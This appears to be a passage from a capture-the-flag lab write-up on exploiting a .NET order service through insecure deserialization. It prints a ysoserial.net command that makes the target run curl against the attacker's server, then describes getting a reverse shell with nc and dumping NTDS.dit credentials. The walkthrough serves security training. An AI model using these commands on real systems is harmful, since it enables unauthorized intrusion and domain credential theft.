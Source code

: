 Transferring the dll with nc on windows machine we can reverse this by using `ILSpy`

<img src="https://i.imgur.com/PqsvQh7.png"/>

On loading the dll we can see the variables having the available commands like `LOGON` , `LIST_ORDERS` , `UPLOAD_ORDERS` and `QUIT` we can also see the `ServerPort` variable which as a value of 4411 that's listening on port 4411

<img src="https://i.imgur.com/bZBgV4C.png"/>

On using the command LIST_ORDERS, it retuns us some kind of base64 text 

Goging back to ILspy, it's actually serializing the data 

<img src="https://i.imgur.com/WzUmXIR.png"/>

<img src="https://i.imgur.com/FUhkkPk.png"/>

<img src="https://i.imgur.com/gwkqnFF.png"/>

We can exploit this by creating a seriialized payload using `ysoserial` using the proper format and gadget for executing commands

https://github.com/pwntester/ysoserial.net

Even tho we can use ysoserial on linux with `wine` but I just used it windows as it's an exe


<img src="https://i.imgur.com/gCqtngT.png"/>

From the help menu, we can look for gadgets which supports `NetDataContractSerializer` which is a serialization used in .NET applications

So first let's generate a serialized payload which will make a request to our server just to test if the exploit works

```powershell
.\ysoserial.exe -f BinaryFormatter -g SessionSecurityToken -o base64 -c "cmd.exe /c curl http://10.10.14.26:2222/"
```

<img src="https://i.imgur.com/mlTJ7RS.png"/>

<img src="https://i.imgur.com/XFixT2i.png"/>

This got a hit on our python server, which means we can run execute commands, so we'll transfer nc and execute it to get a reverse shell

<img src="https://i.imgur.com/HXXtcfp.png"/>

<img src="https://i.imgur.com/MjmaXOK.png"/>

And we got a shell as `NT / AUTHORITY`, we can now just change the administrator's password to get the TGT and can use either psexec, wmiexec or smbexec to get a shell, we can even use secretsdump.py to get NTDS.dit
